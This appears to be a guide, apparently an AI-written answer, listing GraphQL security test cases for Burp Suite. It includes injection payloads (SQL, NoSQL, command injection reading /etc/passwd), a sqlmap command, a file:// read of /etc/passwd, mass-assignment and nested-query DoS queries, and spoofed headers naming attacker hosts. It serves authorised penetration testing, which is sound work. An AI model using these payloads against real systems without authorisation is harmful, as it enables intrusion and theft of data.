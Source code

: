When testing **GraphQL APIs** in **Burp Suite**, you should focus on various attack vectors, including **information disclosure, injections, misconfigurations, and authorization flaws**. Below are some test cases for **GraphQL security testing using Burp Suite**:

---

### **1. GraphQL Endpoint Discovery**
- Check common GraphQL endpoints:
  - `/graphql`
  - `/graphiql`
  - `/api/graphql`
  - `/v1/graphql`
- Use **Burp Suite Intruder** with a wordlist for discovering GraphQL endpoints.

---

### **2. Introspection Query Testing**
- Check if **introspection queries** are enabled:
  ```graphql
  {
    __schema {
      types {
        name
      }
    }
  }
  ```
- If enabled, extract schema information and sensitive queries/mutations.

---

### **3. Unauthorized Access & BFLA (Broken Function-Level Authorization)**
- Test if an **unauthenticated user** can access GraphQL queries.
- Switch **user roles (JWT, API tokens)** and attempt unauthorized queries.

---

### **4. GraphQL Injection Attacks**
#### **a) SQL Injection**
- Test for SQLi in GraphQL parameters:
  ```graphql
  {
    user(id: "1' OR '1'='1") {
      name
    }
  }
  ```
- Use Burp's **SQLMap** integration:
  ```bash
  sqlmap -u "http://target.com/graphql" --data '{ "query": "{ user(id: \"1\") { name } }" }'
  ```

#### **b) NoSQL Injection**
- Inject NoSQL payloads:
  ```graphql
  {
    user(id: { "$ne": null }) {
      name
    }
  }
  ```

#### **c) Command Injection**
- Test if GraphQL allows command execution:
  ```graphql
  {
    systemInfo(command: "cat /etc/passwd") {
      result
    }
  }
  ```

---

### **5. Mass Assignment Testing**
- Send **extra parameters** to check if you can modify unauthorized fields.
  ```graphql
  mutation {
    updateUser(id: "1", role: "admin") {
      id
      role
    }
  }
  ```

---

### **6. Rate Limiting & DoS**
- Use **Burp Suite Intruder** to send thousands of requests.
- Test with deeply **nested queries** to overload the server:
  ```graphql
  query {
    user {
      friends {
        friends {
          friends {
            name
          }
        }
      }
    }
  }
  ```

---

### **7. File Upload Vulnerabilities**
- Test for **SSRF & RCE** via file uploads:
  ```graphql
  mutation {
    uploadFile(file: "file://etc/passwd") {
      url
    }
  }
  ```

---

### **8. Information Disclosure**
- Look for **verbose error messages** in responses.
- Try **querying all users** to check if **rate limiting & access control** is weak:
  ```graphql
  {
    users {
      id
      email
      passwordHash
    }
  }
  ```

---

### **9. GraphQL CSRF (Cross-Site Request Forgery)**
- If the API does not require authentication headers, test if a **CSRF attack** works.

---

### **10. Web Cache Poisoning**
- Try injecting headers like:
  ```
  X-Forwarded-For: attacker.com
  X-Host: malicious.com
  ```

---

### **11. Logging & Sensitive Data Exposure**
- Check if **GraphQL errors/logs** expose credentials or debug data.

---

### **12. Automated Scanning with Burp Suite Extensions**
- Use **"GraphQL Raider"** for fuzzing GraphQL queries.
- Use **"InQL Scanner"** to extract schema details and auto-generate queries.

---

### **Final Thoughts**
Burp Suite is a powerful tool for GraphQL testing, but **always combine manual testing with automation** for better results. Would you like scripts or automation techniques for some of these test cases? 🚀
